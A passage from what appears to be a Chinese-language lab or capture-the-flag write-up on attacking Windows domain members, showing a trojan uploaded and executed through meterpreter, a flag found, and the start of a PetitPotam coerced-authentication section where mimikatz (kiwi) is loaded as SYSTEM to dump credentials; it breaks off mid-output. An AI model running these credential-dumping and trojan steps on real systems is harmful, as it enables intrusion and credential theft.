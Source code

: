 使用 upload 上传木马

[![](assets/1705989181-a32310cb3394e8953c2279d757ede08f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170026-af07ca12-b904-1.png)

`execute`指令执行文件

[![](assets/1705989181-308917075e23d93c21ca04bd16328e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170032-b2dc5f5e-b904-1.png)

在`C:/Users/Administrator/flag`下发现 flag

[![](assets/1705989181-ee79893e6756969983ca40a59f8946a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170038-b690aa92-b904-1.png)

## 攻击域成员二 (PetitPotam 强制认证)

### 票据抓取

列出票据

```plain
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

```